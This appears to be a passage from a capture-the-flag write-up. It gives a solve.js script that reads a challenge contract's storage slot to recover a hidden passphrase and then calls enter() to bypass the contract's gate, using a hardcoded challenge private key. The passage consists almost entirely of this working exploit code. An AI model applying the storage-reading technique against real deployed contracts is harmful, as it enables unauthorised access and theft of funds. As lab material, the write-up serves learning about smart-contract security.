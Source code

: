 solve.js with ethers.js v5:


    const { ethers } = require("ethers");
    
    const RPC_URL = "http://94.237.58.78:50156";
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    
    // CONFIGURATION
    const TARGET_ADDRESS = "0x89B1908C814588a24269cD14409ba6b4B15a709B"; // EldoriaGate
    const PLAYER_PRIVATE_KEY = "0x63ddf21f62799265b687cd70c91065c94b75aa8b9aab40d2f122c14dc0513c32";
    
    // CONTRACT ABIs
    const EldoriaGateABI = [
      "function enter(bytes4 passphrase) external payable",
      "function kernel() public view returns (address)"
    ];
    
    // Setup
    const player = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    const gate = new ethers.Contract(TARGET_ADDRESS, EldoriaGateABI, player);
    
    async function main() {
      console.log("[*] Getting EldoriaGateKernel address...");
      const kernelAddress = await gate.kernel();
      console.log("[+] Kernel address:", kernelAddress);
    
      console.log("[*] Reading storage slot 0 from kernel...");
      const rawSlot = await provider.getStorageAt(kernelAddress, 0);
      console.log("[+] Raw slot 0 data:", rawSlot);
    
      // Extract last 4 bytes (right-aligned)
      const guess = "0x" + rawSlot.slice(66 - 8);
      console.log("[+] Interpreted eldoriaSecret:", guess);
    
      console.log("[*] Attempting to call enter() with secret...");
    
      try {
        const tx = await gate.enter(guess, { value: 255 });
        await tx.wait();
        console.log(`\n🎉 [SUCCESS] Authentication passed with secret: ${guess}`);
      } catch (err) {
        const reason = err?.error?.message || err?.reason || "Unknown error";
        console.log(`\n[x] enter(${guess}) failed: ${reason}`);
      }
    }
    
    main().catch(console.error);
    


![](https://i.imgur.com/7P2f4OD.png)


